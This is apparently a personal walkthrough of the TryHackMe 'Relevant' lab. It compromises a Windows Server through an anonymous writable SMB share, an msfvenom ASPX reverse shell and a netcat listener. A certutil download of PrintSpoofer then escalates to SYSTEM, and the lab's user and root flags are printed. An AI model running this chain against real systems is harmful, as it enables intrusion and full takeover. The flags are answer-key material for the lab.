 ```yaml
---
render_with_liquid: false
title: 8 Relevant
tags: [tryhackme, windows, autorecon, oscp-report, print-spoofer, crackmapexec, aspx, webshell, msfvenom, certutil, privilege-token, print-spoofer]
---
```





# Info

You have been assigned to a client that wants a penetration test conducted on an environment due to be released to production in seven days.

**Scope of Work**

The client requests that an engineer conducts an assessment of the provided virtual environment. The client has asked that minimal information be provided about the assessment, wanting the engagement conducted from the eyes of a malicious actor (black box penetration test).  The client has asked that you secure two flags (no location provided) as proof of exploitation:

- User.txt
- Root.txt  

Additionally, the client has provided the following scope allowances:

- Any tools or techniques are permitted in this engagement, however we ask that you attempt manual exploitation first  
- Locate and note all vulnerabilities found
- Submit the flags discovered to the dashboard
- Only the IP address assigned to your machine is in scope
- Find and report ALL vulnerabilities (yes, there is more than one path to root)

(Roleplay off)

I encourage you to approach this challenge as an actual penetration test. Consider writing a report, to include an executive summary, vulnerability and exploitation assessment, and remediation suggestions, as this will benefit you in preparation for the eLearnSecurity Certified Professional Penetration Tester or career as a penetration tester in the field.

Note - Nothing in this room requires Metasploit

Machine may take up to 5 minutes for all services to start.  

****Writeups will not be accepted for this room.****


# Report

> Used SysReporter to finish OSCP-like format report - https://labs.sysre.pt/projects/776be3b6-c60e-427b-8614-1914a9275ea5/

- [Report PDF File](/assets/obsidian/aa8d06b460116061e2584ecc422a18fa.pdf)


# Notes

> Potato Cheatsheet https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/roguepotato-and-printspoofer


## Recon


### Autorecon

```bash
sudo $(which autorecon) -vv -m 5 --dirbuster.threads 50 10.10.19.222
```


### CrackMapExec

```bash
┌──(kali㉿kali)-[~/thm/Relevant]
└─$ cme smb 10.10.193.232 -u a -p '' --shares
SMB         10.10.193.232   445    RELEVANT         [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:RELEVANT) (domain:Relevant) (signing:False) (SMBv1:True)
SMB         10.10.193.232   445    RELEVANT         [+] Relevant\a:
SMB         10.10.193.232   445    RELEVANT         [-] Neo4J does not seem to be available on bolt://127.0.0.1:7687.
SMB         10.10.193.232   445    RELEVANT         [+] Enumerated shares
SMB         10.10.193.232   445    RELEVANT         Share           Permissions     Remark
SMB         10.10.193.232   445    RELEVANT         -----           -----------     ------
SMB         10.10.193.232   445    RELEVANT         ADMIN$                          Remote Admin
SMB         10.10.193.232   445    RELEVANT         C$                              Default share
SMB         10.10.193.232   445    RELEVANT         IPC$                            Remote IPC
SMB         10.10.193.232   445    RELEVANT         nt4wrksv        READ,WRITE
```


## Exploitation


### Initial Access

![](/assets/obsidian/3fb4f8b3594357b640e58f1144de8f42.png)

Since I have write access to `nt4wrksv`

Upload an `aspx` reverse shell

```bash
┌──(kali㉿kali)-[~/thm/Relevant]
└─$ mkdir www && cd www

┌──(kali㉿kali)-[~/thm/Relevant/www]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=1111 -f aspx -o rev.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of aspx file: 3406 bytes
Saved as: rev.aspx

┌──(kali㉿kali)-[~/thm/Relevant/www]
└─$ smbclient.py a@10.10.193.232 -no-pass
Impacket v0.10.1.dev1+20230620.44942.4888172 - Copyright 2022 Fortra

Type help for list of commands

# use nt4wrksv

# put rev.aspx

# ls
drw-rw-rw-          0  Fri Jun 23 08:00:35 2023 .
drw-rw-rw-          0  Fri Jun 23 08:00:35 2023 ..
-rw-rw-rw-         98  Sat Jul 25 11:35:44 2020 passwords.txt
-rw-rw-rw-       3406  Fri Jun 23 08:00:35 2023 rev.aspx

#
```

```bash
┌──(kali㉿kali)-[~/thm/Relevant/www]
└─$ curl http://10.10.193.232:49663/nt4wrksv/rev.aspx
```

```bash
┌──(kali㉿kali)-[~/thm/Relevant]
└─$ rlwrap -r -f . nc -nlvp 1111
listening on [any] 1111 ...
connect to [10.11.19.145] from (UNKNOWN) [10.10.193.232] 49929
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
iis apppool\defaultapppool

c:\windows\system32\inetsrv>cd C:\Users
cd C:\Users

C:\Users>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of C:\Users

07/25/2020  02:03 PM    <DIR>          .
07/25/2020  02:03 PM    <DIR>          ..
07/25/2020  08:05 AM    <DIR>          .NET v4.5
07/25/2020  08:05 AM    <DIR>          .NET v4.5 Classic
07/25/2020  10:30 AM    <DIR>          Administrator
07/25/2020  02:03 PM    <DIR>          Bob
07/25/2020  07:58 AM    <DIR>          Public
               0 File(s)              0 bytes
               7 Dir(s)  21,052,596,224 bytes free

C:\Users>cd Bob
cd Bob

C:\Users\Bob>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of C:\Users\Bob

07/25/2020  02:03 PM    <DIR>          .
07/25/2020  02:03 PM    <DIR>          ..
07/25/2020  02:04 PM    <DIR>          Desktop
               0 File(s)              0 bytes
               3 Dir(s)  21,052,596,224 bytes free

C:\Users\Bob>cd Desktop
cd Desktop

C:\Users\Bob\Desktop>type user.txt
type user.txt
THM{fdk4ka34vk346ksxfr21tg789ktf45}
C:\Users\Bob\Desktop>
```


### Privilege Escalation

```bash
C:\ProgramData>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

Potato attacks will not work on this machine, the creator made some defense for it

> Using PrintSpoofer to gain SYSTEM privilege for the interactive shell

```bash
c:\windows\system32\inetsrv>cd C:\Programdata
cd C:\Programdata

C:\ProgramData>certutil -urlcache -split -f http://10.11.19.145/PrintSpoofer64.exe ps.exe
certutil -urlcache -split -f http://10.11.19.145/PrintSpoofer64.exe ps.exe
****  Online  ****
  0000  ...
  6a00
CertUtil: -URLCache command completed successfully.

C:\ProgramData>ps.exe -i -c powershell
ps.exe -i -c powershell
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Windows PowerShell
Copyright (C) 2016 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> whoami
nt authority\system

PS C:\Windows\system32> cat C:\Users\Administrator\Desktop\root.txt
cat C:\Users\Administrator\Desktop\root.txt
THM{1fk5kf469devly1gl320zafgl345pv}
PS C:\Windows\system32>
```

